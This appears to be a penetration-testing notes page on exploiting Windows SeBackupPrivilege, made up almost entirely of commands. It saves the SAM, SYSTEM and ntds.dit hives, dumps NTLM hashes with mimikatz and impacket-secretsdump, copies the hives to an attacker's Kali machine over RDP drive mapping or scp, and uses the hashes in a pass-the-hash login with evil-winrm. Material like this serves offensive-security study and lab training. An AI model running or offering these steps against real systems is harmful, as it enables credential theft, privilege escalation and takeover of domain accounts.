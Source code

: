 # SeBackupPrivilege

Check privileges:

```powershell
whoami /priv
```

* SeBackupPrivilege must be present

[NLTM](../nltm/)

#### Exploitation:

1. Create a temp directory:

```powershell
mkdir C:\temp
```

2. Copy the sam and system hive of HKLM to C:\temp and then download them.

```powershell
reg save hklm\sam C:\temp\sam.hive
```

and

```powershell
reg save hklm\system C:\temp\system.hive
```

3. Get hashs

_**Windows**_

Use mimikatz to get NLTM hashs:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "lsadump::sam /system:c:\temp\system /sam:c:\temp\sam" "exit"
```
{% endcode %}

_**Kali**_

Transfer files to kali machine

**Enable drive direction on RDP session:**

{% code overflow="wrap" %}
```sh
xfreerdp /v:192.168.224.220 /u:dave /p:lab +clipboard /cert:ignore /drive:KaliShare,/home/kali/share
```
{% endcode %}

**If SSH is available:**

```shell
sudo systemctl start ssh
#on kali
```

```powershell
scp C:\temp\sam.hive kali@192.168.X.X:/home/kali/
```

4. Obtain ntlm hashes:

{% code overflow="wrap" %}
```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```
{% endcode %}

5. Use evil-winrm to pass the hash and connect as Local Administrator:

```sh
evil-winrm -i <ip> -u "Administrator" -H "<hash>"
```



If you're on a domain controller and notice your current user has `SeRestore` / `SeBackup` privilege, then you can access the `ntds.dit` (hashes of all domain accounts) by first:

{% code title="script.txt" %}
```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
{% endcode %}

Storing the above in `script.txt`, then navigate to `C:\Windows\System32\`

Then run the following command:

```
.\diskshadow /s C:\Users\YOURUSER\Desktop\script.txt
```

You can then access the contents of `ntds` by doing a `robocopy`

{% code overflow="wrap" %}
```
robocopy /b E:\Windows\ntds C:\Users\YOURUSER\Desktop\ntds
```
{% endcode %}

You can then get the hashes similarly to how you would with the SAM / SYSTEM files

{% code overflow="wrap" %}
```
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
```
{% endcode %}

